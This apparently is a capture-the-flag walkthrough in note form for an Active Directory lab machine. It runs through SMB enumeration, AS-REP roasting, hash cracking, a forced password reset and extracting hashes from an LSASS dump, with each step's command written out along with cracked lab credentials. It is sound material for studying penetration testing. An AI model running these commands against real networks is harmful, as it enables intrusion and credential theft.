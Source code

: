 # SMB
---
- `smbclient -L \\\\10.10.10.192\\ -U anonymous`
	- ![[Pasted image 20250425160049.png]]
- **profiles$**
---
	- Looks like names:
		- ![[Pasted image 20250425160240.png]]
		- `cat user_gar.txt | awk '{print $1}' > users.txt`
**-  Forensic**
---
- Not accessible
	- ![[Pasted image 20250425161104.png]]


# ASREP-roasting
---
- We try `asrep-roasting`the list of found users:
	- `impacket-GetNPUsers BLACKFIELD.local/ -usersfile users.txt -dc-ip 10.10.10.192 -no-pass -format john`
	- ![[Pasted image 20250425161211.png]]
- Crack the hash:
	- `hashcat support_hash.txt /usr/share/wordlists/rockyou.txt`
	- ![[Pasted image 20250425161401.png]]
	- `support`: `#00^BlackKnight`

# Bloodhound Enumeration
---
- Apparently, **we can use bloodhound even if only smb login works (didn't knew that)**
- Start `neo4j`and `bloodhound`as sudo
- Dump using:
	- `sudo bloodhound-python -d BLACKFIELD.LOCAL -u support -p '#00^BlackKnight' -ns 10.10.10.192 -c all`
- And load in bloodhound
- **Mark `support`user as `Owned`**
- Double click `support`user for more information:
	- ![[Pasted image 20250426022106.png]]
	- ![[Pasted image 20250426022125.png]]
- **==Support user can ForceChangePassword of Audi2020==**
	- ![[Pasted image 20250426022218.png]]
	- `net rpc password "audit2020" "Password1" -U "BLACKFIELD.LOCAL"/"support"%"#00^BlackKnight" -S "10.10.10.192"`
	- `audit2020`: `Password1`
# SMB Shares with `audit2020` user
----
- Now that we changed `audi2020`' password, we can explore **`forensic`share**
	- `smbclient  \\\\10.10.10.192\\forensic -U audit2020 --socket-options='TCP_NODELAY IPTOS_LOWDELAY SO_KEEPALIVE SO_RCVBUF=131072 SO_SNDBUF=131072' -t 1000`
	- ![[Pasted image 20250426022408.png]]
	- ![[Pasted image 20250426024339.png]]
	- ![[Pasted image 20250426024412.png]]

# Analyzing Lsass Dump (using `pypykatz)
---
- `pypykatz lsa minidump lsass.DMP`:
	- We find NT hash of `svc_backup`:
		- ![[Pasted image 20250426045303.png]]
